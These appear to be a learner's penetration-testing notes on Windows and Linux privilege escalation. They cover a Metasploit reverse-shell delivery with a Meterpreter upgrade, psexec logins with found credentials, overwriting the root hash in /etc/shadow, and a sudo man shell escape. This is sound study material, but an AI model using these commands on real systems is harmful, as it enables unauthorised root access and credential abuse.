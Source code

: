 
## Windows Privilege Escalation 


- PrivscCheck is a script that enumerate common Windows configuration issues that can be leveraged for local privilige escalation. It also gathers info that is usefull for exploitation or post exploitation: 
	- https://github.com/itm4n/PrivescCheck 

----

web_delivery module (`show info`)
- set target to powershell:` set target PSH\ (Binary`) 
- `set payload windows/shell/reverse_tcp `
- `set PSH-EncodedCommand false ` (we do not want it to encrypt with base 64)
- copy the powershell code provided 
  
- paste the code in the CMD session on victim system 
this will give you access to target system through command shell session. 
  
- migrate this session to meterpreter session: 
	- `search shell_to_meterpreter` module 
	- set lhost kali 
	- set lport (make sure its not the same as the existing shell session)
	- set session to shell session 
	- show advanced: 
		-` set WIN_TRANSFER VBS`

**powershell -ep bypass .\script.ps1** 
Hiermee wordt het uitvoeringsbeleid tijdelijk omzeild voor de huidige sessie, zodat het script kan worden uitgevoerd zonder problemen met de uitvoeringsbeleidsinstellingen.**


**Privilege escalation:** 
after migrating to a more stable process such as explorer you run getprivs to find out what the priviliges are (getprivs)

In meterpreter: 
- `cd C:\\ `
- go to the directory where the Privescheck powershell is stored and open a command shell: `shell` 
	- check github page on how to use the script 
- paste the command in the shell prompt 
- check summary results 


##### How to use the credentials found in Privescheck results?  

![[Pasted image 20230924152458.png]]
psexec authenticates on target system via SMB, we are not exploiting the system but only authenticating with legit credentials 

login on target system with psexec.py:
- `psexec.py Administrator@target_ip (`
- command shell session
	- `whoami` 
	- `net user `
	- `whoami /priv `


Method 2 is with meterpreter session 
- search psexec 
- use exploit/windows/smb/psexec 
- set lport that does not conflict with current sessions 
- set smb-password and smb-username with found credentials 

















## Linux Privilege escalation 

Linux priviliges: LinEnum 
Simple bash script that automates common Linux local enumeration check in addition identifying privilege escalation vulnerabilities. 
-> https://github.com/rebootuser/LinEnum 

---

##### Weak permissions 
CMD: 
	``whoami` 
	`cat /etc/passwd`
	`cat /etc/group `
	`groups student

find file that can be usefull in elevating privileges 
 
**`find / -not -type l -perm -o+w`**  

- . `find`: This is the command itself, used to search for files and directories.
- . `/`: This is the starting directory for the search. In this case, it's the root directory, so the command will search the entire file system.
- . `-not`: It means "not."
- . `-type l`: This part of the command specifies the type of file to search for. `-type l` looks for symbolic links (symlinks). Symlinks are files that point to another file or directory.
- . `-perm -o+w`: This part of the command specifies the permissions criteria. `-perm` is used to search for files based on their permissions, and `-o+w` looks for files that are writable by someone other than the owner.


/etc/shadow stores passwords and should only be viewed by the root user. 
cat out the content of the file 
we have access to the password files but we can only see the hashes. 
so this means that we have to replace the password with a hashed password (this way we can have access to the root user)

1. Confirm that you have access to the shadow file: `ls -al /etc/shadow `
   `cat /etc/shadow`
2. generate password you can replace: `openssl passwd -1 -salt abc youhavebeenhacked`
3. copy hashed password and replace in shadow file: `vim` `/etc/shadow `
   remove the * and paste the new password 
4. switch to the root account: `su` 
5. enter password of root user account with the value you set 


##### Sudo Privileges 

`cat /etc/passwd `
`sudo -l `(list of commands you can run as the user)

 
 /usr/bin/man can be exploited if misconfigured with sudo priviliges: 
 unprivileged can run this binary with sudo priviliges (root priviliges) without root password/  -- bypassing permissions & privileges
 
 man utility can allow users to spawn a bash session from within the utility, how: 

  try to run with sudo privliges:
  -  `sudo man ls `  (it should not ask for password)
  - we can spawn a bash session with: 
  `  !/bin/bash `
because we are running the man binary with pseudo priviliges, we are able to execute whatever, from the man binary. 




